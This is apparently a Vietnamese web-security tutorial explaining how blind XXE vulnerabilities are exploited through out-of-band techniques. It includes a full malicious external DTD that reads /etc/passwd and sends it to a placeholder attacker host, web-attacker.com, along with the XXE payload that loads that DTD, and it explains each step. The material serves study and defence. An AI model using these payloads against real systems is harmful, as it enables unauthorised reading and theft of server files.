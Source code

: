 # Overview

Phát hiện một lỗ hổng XXE blind thông qua các kỹ thuật out-of-band là rất tốt, nhưng nó không thực sự chỉ ra cách lỗ hổng có thể được khai thác. Điều mà một attacker thực sự muốn đạt được là truyền tải dữ liệu nhạy cảm. Điều này có thể được thực hiện thông qua lỗ hổng XXE mù, nhưng nó bao gồm kẻ tấn công chứa một DTD độc hại trên một hệ thống mà họ kiểm soát, sau đó triệu gọi DTD bên ngoài từ trong tải XXE trong-band.

Dưới đây là một ví dụ về DTD độc hại để truyền tải nội dung của tập tin /etc/passwd:
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

DTD này thực hiện các bước sau:

- Xác định một entity XML parameter có tên `file`, chứa nội dung của tập tin `/etc/passwd`.

- Xác định một entity XML parameter có tên `eval`, chứa một khai báo động của một entity XML parameter khác có tên `exfiltrate`. Entity `exfiltrate` sẽ được đánh giá bằng cách thực hiện một yêu cầu HTTP đến máy chủ web của attacker, chứa giá trị của entity file trong chuỗi truy vấn URL.

- Sử dụng entity `eval`, làm cho khai báo động của entity `exfiltrate` được thực hiện.

- Sử dụng entity `exfiltrate`, để giá trị của nó được đánh giá bằng cách yêu cầu URL đã chỉ định.

Attacker công sau đó phải chứa DTD độc hại trên một hệ thống mà họ kiểm soát, thông thường là bằng cách tải nó lên máy chủ web của riêng mình. Ví dụ, attacker có thể cung cấp DTD độc hại theo đường dẫn URL sau:

`http://web-attacker.com/malicious.dtd`

Cuối cùng, attacker phải gửi tải XXE sau đây đến ứng dụng có lỗ hổng:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```
Tải XXE này khai báo một entity XML parameter có tên `xxe` và sau đó sử dụng entity trong DTD. Điều này sẽ khiến trình phân tích XML truy xuất DTD bên ngoài từ máy chủ của attacker và giải thích nó trực tiếp. Các bước được xác định trong DTD độc hại sau đó được thực hiện, và tập tin `/etc/passwd` được truyền tải đến máy chủ của kẻ tấn công.
